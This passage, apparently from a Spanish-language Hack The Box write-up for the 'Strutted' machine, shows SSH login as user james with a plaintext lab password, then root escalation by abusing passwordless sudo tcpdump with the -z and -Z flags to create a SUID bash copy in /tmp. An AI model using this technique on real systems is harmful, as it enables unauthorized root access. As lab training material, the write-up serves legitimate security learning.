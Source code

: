 ![](assets/img/htb-writeup-strutted/strutted4_2.png)

Probé estas credenciales para acceder vía SSH como el usuario `james`, lo cual fue exitoso.

```terminal
/home/kali/Documents/htb/machines/strutted:-$ ssh james@strutted.htb
james@strutted.htb's password: IT14d6SSP81k

james@strutted:~$ id
uid=1000(james) gid=1000(james) groups=1000(james),27(sudo)

james@strutted:~$ cat user.txt
```

---
## Privilege Escalation

Al revisar los permisos `sudo` del usuario `james`, encuentro que puede ejecutar tcpdump como `root` sin contraseña.

```terminal
james@strutted:~$ sudo -l
Matching Defaults entries for james on localhost:
    env_reset, mail_badpass,
    secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin\:/snap/bin, use_pty

User james may run the following commands on localhost:
    (ALL) NOPASSWD: /usr/sbin/tcpdump
```

Según [GTFOBins](https://gtfobins.github.io/gtfobins/tcpdump/#sudo), es posible abusar de tcpdump con `sudo` para ejecutar un binario arbitrario como `root` mediante las flags `-z` y `-Z`.

Genero un payload que copia `/bin/bash` a `/tmp/bash_root` y activa el bit SUID.

```terminal
james@strutted:~$ COMMAND='cp /bin/bash /tmp/bash_root && chmod +s /tmp/bash_root'
james@strutted:~$ TF=$(mktemp)
james@strutted:~$ echo "$COMMAND" > $TF
james@strutted:~$ chmod +x $TF
```

Ejecutando tcpdump con la interfaz loopback, genero una captura que se detiene tras 1 segundo y rota una única vez, lo que provoca la ejecución del payload.

```terminal
james@strutted:~$ sudo tcpdump -ln -i lo -w /dev/null -W 1 -G 1 -z $TF -Z root
tcpdump: listening on lo, link-type EN10MB (Ethernet), snapshot length 262144 bytes
Maximum file limit reached: 1
1 packet captured
4 packets received by filter
0 packets dropped by kernel
```

